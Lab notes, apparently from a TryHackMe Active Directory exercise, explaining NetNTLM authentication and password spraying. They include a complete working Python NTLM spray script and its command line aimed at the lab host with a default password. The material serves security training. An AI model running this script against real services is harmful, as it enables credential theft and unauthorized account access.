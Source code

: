 # NTLM Authenticated Services

- NTLM is the suite of security protocols used to authenticate user identities in AD
- NTLM can be used for authentication by using challenge-response-based scheme called NetNTLM; used by services on a network

Services that use NetNTLM can also be exposed to the internet:
- Internally-hosted Exchange (Mail) servers that expose an Outlook Webb App login portal
- RDP service of a server being exposed to the internet
- Exposed VPN endpoints that are integrated with AD

## NetNTLM
- All authenticated material is forwarded to a Domain Controller in the form of a challenge
- If completed successfully, the application will authenticate the user
- Application is authenticating on behalf of the user and not authenticating the user directly on the application
- Prevents application from storing AD credentials, which should only be stored on a Domain Controller

![Alt text](../../Images/NetNTLM.png)

## Brute-force Login Attacks
- Most AD environments have account lockout configured, won't be able to run a full brute-force attack
- We have been provided a list of usernames from a OSINT exercise
- OSINT exercise also indicated the organization's initial onboarding password which is `Changeme123`

Use a custom-developed script to perform a password spray against the web application hosted at: http://ntlmauth.za.tryhackme.com

![Alt text](../../Images/ntlmauth.za.tryhackme.com.png)

## Python script
<pre>
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])

</pre>

Script takes our suggested password `Changeme123` and the URL we are targeting as input and attempts to authenticate to the URL with each username in the textfile.
- Monitor the HTTP response codes from the application
- Determine if the credentials pair is valid or not
- Successful `200 HTTP (OK)`
- Unauthorised `401 HTTP (Unauthorised)`

## Python Script Syntax
<pre>python ntlm_passwordspray.py -u usernames.txt -f .za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/</pre>

- `-u` : Textfile containing usernames
- `-f` : Fully qualified domain name associated with organization we are attacking
- `-p` : Password used for spraying
- `-a` : URL of application that supports Windows Authentication